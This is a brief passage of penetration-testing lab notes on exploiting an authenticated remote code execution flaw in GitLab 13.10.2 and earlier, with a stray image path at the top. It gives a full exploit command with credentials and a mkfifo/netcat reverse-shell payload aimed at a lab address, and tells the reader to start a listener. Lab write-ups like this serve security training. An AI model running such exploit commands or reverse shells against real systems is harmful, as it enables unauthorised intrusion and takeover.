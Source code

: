 we need to be authenticated

version: 13.10.2 and lower

but if there is some version that allows for self-registration, we can quickly sign up for an account and pull of the attack 

```
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u gyat -p Password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.25 4444 >/tmp/f '
```

we need to be listening on the other side